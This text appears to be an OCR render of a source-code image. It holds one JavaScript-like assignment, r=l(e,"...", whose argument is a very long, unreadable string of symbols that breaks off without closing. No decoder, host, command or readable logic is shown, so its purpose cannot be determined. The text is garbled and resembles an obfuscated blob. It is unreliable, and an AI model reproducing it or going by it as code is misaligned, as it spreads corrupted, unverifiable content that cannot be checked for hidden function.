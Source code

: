 r=l(e,"x&<(}_NWE8?iSUT-E?TEUSURSWSE?S?q8}SSTTU-U}?ii}?&8E8W8(_EW(N}_u}_}NSiT&i/?}8ET#TEUUUiWSS(?W??8_8#EE<EW&N(}8}iTS(}&SZUiSUSTUU-U}U}S8S0_SWSEUESW&<=(-}U__U(S-iE?S?cUU-_UUUWS88iii?S?(8?}-&&j}-ETSTFU}SE-}-p?_TU8U -i}-iEiTiE((8<S<l&}ZE-S-V&E&ES-U8i}?E8SUU-(TWU?i(i8?i8iE(8EE?W_NT_i_i<}(8<E&S&&sTU_-S-BT<NWNN}S}a(}WSE&EEWE_K<U}S(U<-<?&UR8LN!+E<W_N8_S_5}}(E<S?g_i}E---ET}UESSY8<<&i&v-&-<UiU&N&_}}E(S(a<}_EWE}b-_(<Wi-(?}(<W?E/U(EiEDWVN}_E8-?8?TEU&U&Rn}-ETSTkU}iE-ii(?i8EESE,S?SUi-S}i(??_T<&&}tE-S-MT}UE&(2Fi_?E8S8vE}WENSE?8}}i}<(C<}&E_E_}}S((<&<8SWS<?S?28}UiTiT_UNiii&8(8_8NE-&&Wi(E-W}&W-}W&&N-?W8SESEpW}?US?S_i&(8<S<r&}:E-SWY<S&ES-SNi}?E8ST.T_T?U&STSE}i}}(b<}&E_WN_NU(&}?}v(8<S?-?}8}EEWSS_?ES&i8}((T<E&S&d_W_U_E}_(W(S&U&<&X-UEU}W8i_nWiN<iS<(Ni<(&S0E-S-P(}}W(-<8<E&&ni-TE_WENSN2_}}E(SNTN}&i&%Kr-}TE<<(-(<<S?U?K8}EEWSWmE}S(ES}&--:__}_mNS}8S(&-U_i-?-WS}}( YW&_i(NiNW_R}}(EWEE-WWN8NE}+_z(8}_<_<N?i?!8rE}WET(U<i_iE(U( <}&EfS.5&}N}&SU(SSiE?S?)TETU-}T}iWS&SN?_(W<S&S&BO}}N}U}U(8S8W&}#SN-EWd<U}i?W_-WW}}(E<SW}WSW&N-& }?}&(E<_U}&--UR(?}TEUTS-SE?U8-?}E8WS<SWW_U_S}}-.&&<W&i0TTWTUU-8Qi?Ei}-}}(}<E&S_SN8_TN,T&(?<T<<&Nk?-TW<i-WWWW_S_R}}W?8i8<WENUNT}(}U_<(&&#&U</>&-SEWWUNSNs_}Ei?E8-8WWUr-=}-}TEUS(W<_<_&&?(8TEEWSW4U,SW?U?}?W8SETW8W<_-T-TWU}SEiS-WB8LS?SSiU8T&_-_S}}(E<SW<W8WiN&N}((}N&-(l&_&-D?8(ESWENSNm?88&W-8-8NENW&W<-WT-USUCS}OS&&&EDES?TiTEN__E}S}p(}<E&SNd}}-8TSTdU}SEiSiIU.UEE-EiW}NE_S8(i(?E?_WWW8N?N-_8_E(US-S(i}?E8SUiT8-&N-NS_}}E(SW<8(E?WXN_NN<i}i(S((<?U-?&<(E?}WE-T_C-TiW-(__EiiQUN(?_E?SW&(SiSEi#?}8ES-T-TNUNS&S<8N888uE8E8Wi---_T}UESS&(<t&&---_ENWEN-N-_}}E(SE68OW8N-N__S_W}E(}<8<?,;2_oS-SWUW N}_E}S}#&}8W_S&&P}-ETST=U}SE+?-+?_&UT-_Si(N?Si8(Q((i(&<*&}9EN-N}}_}?}6S&i}?E8S8eE}WEiW?l__T<U_S8iUi&?_U8((TiT_UoS}iE-S{S-_k&T&T<?iSUi_}((?<E&S&,_T}&_?}}(8}ki-iE?}8EES-<U8S8SMiN?U?}8&<&_E__Ti(9_(_<E-W-iW?-8S8JE}UTUTS-S&8?E(W<<_&EBSLt-}TE_S&?9}iiSi?v8}EES&UTUEiUiTNn?U8W8&E<<}N(_&_8-}<T<i<<S}T}-_TWUSUSU&SEN}E}8_8}W8,8-S-DT}UESSS:-TTE8U8cE}WENSN+U}?KWS(((}&EoSvm_N(+<-&E(W<_&;U^S_S&T-UiUWi8i-?}(W<U&S&bP}NE}-}&}=(}i-i}?}8EESU}U8TFU+_&WJOu<U?&A((?iU<-TWTESSSfi}T?-U-(T-U-UTS-S8iN?>W(8(E}WiW<<WTiTUUqS}iE-_lU-_T-T&S}UNi8i?i(?}E8ETW_W<_iN_T(UiSEiSir-W)&TTTSUUUNS(_(_?(E<S<v_NN8_-_i}i}?(i(_<<QS-vC<T_TNU-Uvi_i??&8TEW8&b-f--}TEUS(S<U&-&}&})8/#SEi8iE8UW?i}?S8S&U&Cj}-ETSTKU}-U-Si(i&8EESE2U(SUU_?_?T8??}E}E%NS}8N((TU8?8vW_WTW<NQ(_&iWN-NS_}}E(SWiE88&_-W8NW_S}&(U-_T?U-?(?;EEWSWQiii8i_i}W?8WET_(NSN&_E}}U_SEiSig?}8EES8Li}NiNS_B}}(EN-ESWUWEN-(}}8}i<-<_<<7S-U-T-ETiNU(&}_MW(iKKNSy(}i^&-}TEUSUHS}iE?S?B8W8NWSW/N}?iiii_?NEiE&N(N_NN_-<<}((}<wi(?E8EESEHSNSUi-S}}W}?<S<B&}_iNiN__N(i(&&(&_&N+-T(T8T_U_S<S(i}?.((<-&E2S5O}W_}}_((<8-i&&dT6ETUTTW&N}_E}S}X(}<E-S}-2W<(TSTVU}(6(h<}&}U<ii?-TiU-U(WTiN?WETESE(E,<?_(_(}_-i<&<W&ir&)}i(iWU_S}8&W8NTNW_}}-(S(N<}&-&&#vSWS<?S?w8}UST&TEUE8?S&i}?E8WE?&&^}-ETST=U}SE&--l?W8TESEZW}?iSiiSi(??_-<(&TaE-S-A<-(U}_Tq)W<&o-O}T8T_N-W&_}}E(S8<8<_&WWW(N&_i}?&U&Wo}-i-(S}i8?TS(NWN(}S}5(}WSE&EEWE}-_T}&}}(E<&&}?_8EESE5W}NE_SWEE}(i(?<L&}ZE_N(8_<(S(&(E-N)Uo}-&-?T&UiU<_W}U(S(*<}N&W8N&_i}UU-UWS}iE?STEaE-STSiWS8SS}-}z(}<E&S&&ii_E&Tv9&<E<?8T-?_8EESEuW}NEWSi<E}(8SWN<*?NE8-W(?W&WS-X}i}?E8S-E-ETSUSU(ETWWNi?<E_E-(?NW_U_S}}}_<N<U&-s_DNTiTiUTUEiUi?i}N<EiEiWU((NS_T}_(8(W<<<k&G-8-?-}?(iNSiS}?U8T_iEUW_W&N?&-_1}&<T(<&_&?&_iT-,TUSUN(_U}E(S(XWWWiWTN__8_N<(}_<Ui8?S?h8}EEWSWA8T8E}UWs8&iU&i(&E_S-<iT&?&U}i(}T<8<U}?i-W_ETN--E<(NS8<T(_(BimN-7T}UE<P<_<S&SU----dTWUT8(__}E(S(,<}&ESS_W(}TiXWU9S}iE&}&}OE-EiN8-8(S-S(iWN<8?EiW<WmNWN},T(W(W<8U-D_Ii--T_TE8W8ii8?EW__U__}E(?(&<(&?HU7,-:T??i?_8IE}WES-S-SNiWi&?}EUENW&2(-UTEUSUV(i<?&_&}-8TTT_USS8_i_N}D(}<ENGE<W(NE(-}E(_<S<i<W?W8SESEzW}i(S&S8WT(i}(< &}0ENT_<_S(8(-((&8&S1_-}iT?W8i8NE}W8W=N<_?}8}_(8<WTiT&UyS}iE-<&<-_-_T&W&N}_E}S}y(}?EEN_JIWM<TSTzU}&&<8&&ti-UUET&UNSUSE_(}U(E<S<.NENUW}N}(s(8<T<_<9?i8-8gE}WEU?S_Si}i}W(1<}&E__NU__}-}&&<(8<S<nV-0<EiEUWAN}_E8S?S8_EiE&WEW(N}_c}_}NBi<i&S&(C?i-E&W}NE_S_9}}(EN<ND&WYT-S-5T}&8<-(}&U&T;&8&-U-ii_rk-T(<&(N-<_&E,SX7-}TE5S}E9}i8?S?P8}EEWS8fU&8E}-}8(}<E&SN(NW_8_E}_<E}&<S&_?_8EESE5W}NE8SiiE}(i(&<Q&}#E_&(}}U}_-TS&i}?E8S8,E}iES&?._WNr(S(p<}E?NTWE___i}-(_(E<&&gU?S(iW?U?<8_E?EAW<NU_T}-}((W-i-WTBU}SE-U&T%WFR-i-<S}UWS_iTiE(i(_<L&} E(-_E}8(i(WTF--,U&_8(EiWENSN;?}i}8U?8E8E?W-o&-}TEUSUkS}-E&&T{E&E?WSWtN}8i}S}X(}<8&S&qG}f?-UTQU}SES(in?}8E8T8RW}NE_S?E}}(E<S}N<S%E-S-jT?UESUS0UU?E?M&ZE}WENSNN_}}8(S(}?}&EsSp7-iTEUUUVS}-_?S?m8}E8WSWPN}N?<E}n(}<E&T&^;}-E-Ti!U}S8iSU-?}8EES8<WiNE_T_lW<(E<S<f(}&U-S-<T}U?SS<-i}i??T8AEEWETXN,_}}E(S}U<}&U4Se&-}TEUSU6UNiE?T?*88EEWSWlN}N8}S}&(}<E&S&<b}-EWWT*U_SEiUi^?N8E8TESW}N?_S_i}}(E<S}!<igE-T-JTNUE_<SXSN?88S8(E}TUNSN+_}}E_((/<N&E=Tb+-NTET<&8S}ii?S?_8}E8WSW<N}_ETE}*(}<E&U&%t}-ETSWSU}SEiSi<?}8EES8<??NE_-_B?T(E<S<O<N<u-S-(T}<WSSSRi}??-_8AEEWENSN%_}}E(SN&<}&i6Su<-}T?USUN8UiE?-?>i_EEWUW=N__E_jSD(}<E&S(&!}-8TS-<T8SESRib<<8EESEDEN}}_S__}}ET<S<t&}&?UE-qT?UERTSoi}?E8S_UE}WSNSNN_}}8(S}<(8&E&Rmg_TTEUSUcUNW(?S?_8}UNWSW*N}N?_E}=(?<EN(&D:}-E-TTWU}S-iS9N?}8EESEgE_NEN<_m}i(E<S<n&}&(-S-}T}UESSS&i}i?iW8=EEWEWWNR_}}E_S<y<}&SYS.}-}NTUST<U&iEi&?J&EEEWSWyN}N(}S}}(}<?&S&<b}d?-8TDU8SESWi=?}8E?SEEW}NU_S__}}iT<S(<<?#E2<-.NNUESSS>i}??8S8_E}W?NSN<_}_?_&(j<?&E&Wzt-}TE-SSpS}iT?S?N8}ATWSE<W}_E_(}aiE<E&S&KX}-?TSTNU}S?iSi<?}???}EkWiNENW_y}}(E}S(E&}%--S-WT}_TSSU<S}?E?}8G%NWENSNe_}}U(S(W<}&?qS7<-}-?-&UKSSiEiW?z8}EE8SN/N}N+}S}E(}?T&S<<kN-E-_Tj_ESEiSi>?}i}ESEEW}N?_S_<}}}?(W<V&UJE.W-3T}UETSSWi}i&8S88E}-TNSW<_T}E}N({?8&E/SJv-}-}USU8S}i??S?<8}8?8&WaNT_E_W}.(}<E(S.sP}><TST?U}}TiSS<i88E8WE5-8NE_S_^}}__<S<?&}4?-S-<T}T?TESki-?E?W8+E}WEESN-_}_((S(i<}8T.S&<-STETEUj}NiE?S?98}ETWSWiN}_?}S}<(}(?(&&:&a-E-WTkU}SEUS?y?}?}ESESW}TT_SN<__(E(8<O}WlE-S-RT}TNSSSSi}??8S8<E}E?WENtN&}E}W(q<}&E<SF}-}-_USUUS}(T?Si<8-EEE?W 8N_E}S}m(}(&&S&Um}-?TST<U}U?U&iDi<8E8WEBW}NEWS}f}}}N<S<T&}ET-SZ<-&UEUiS=(8?E8S8AE}8(NSNT_}}?(S(<<}<?&N^vX(TETWU*S}iESSi88}8WWSW-N}UT}S_<}<<E<S&+N?-ETSTLU}U8iSi-?}8?ESE<W}W?W&_r_}(E(W<Y&}JE&STMT}TESSUYi}<T8S?<8}WEWUNmEN}E(S(s<}<TGS&J-}T?USU<S}S?S8?F?_EEEWWON}_ENS}U(}(8&S<&M}WTTS-<UWSESTiA<88EESEjW}WW_SN&}}(?<S<<&}&?&&-g-NUEUWS>i}?EiSErE}E?NSW<_}ST(S}<<_&E&-+kWiTEUSUsS}S6?Si<8}E?WSW